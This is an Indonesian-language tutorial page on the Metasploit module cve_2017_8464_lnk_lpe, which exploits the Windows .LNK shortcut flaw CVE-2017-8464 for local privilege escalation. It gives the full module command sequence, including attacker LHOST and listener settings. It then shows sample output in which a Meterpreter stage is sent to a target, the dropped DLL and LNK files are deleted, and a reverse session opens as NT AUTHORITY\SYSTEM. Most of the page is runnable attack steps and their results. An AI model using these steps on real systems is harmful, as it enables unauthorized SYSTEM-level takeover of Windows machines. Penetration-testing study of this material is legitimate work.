 # cve_2017_8464_lnk_lpe

Modul `cve_2017_8464_lnk_lpe` di Metasploit adalah modul `exploit local` untuk sistem Windows yang memanfaatkan kerentanan shortcut `.LNK` (`CVE-2017-8464`) guna melakukan eskalasi hak akses. Kerentanan ini memungkinkan eksekusi kode arbitrer saat shortcut yang dimanipulasi diakses, sehingga dapat digunakan untuk mendapatkan hak `SYSTEM` di sistem target.

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/cve_2017_8464_lnk_lpe
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[!] SESSION may not be compatible with this module:
[!]  * incompatible session type: meterpreter. This module works with: .
[*] Generating LNK file to load: C:\Users\admin\LyCvVvdEkbJVUEfa.dll
[*] Sending stage (177734 bytes) to 192.168.1.53
[+] Deleted C:\Users\admin\LyCvVvdEkbJVUEfa.dll
[+] Deleted C:\Users\admin\CAkoGlgdwbVztjah.lnk
[*] Meterpreter session 8 opened (192.168.1.11:4444 -> 192.168.1.53:49175) at 2025-05-17 05:18:06 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

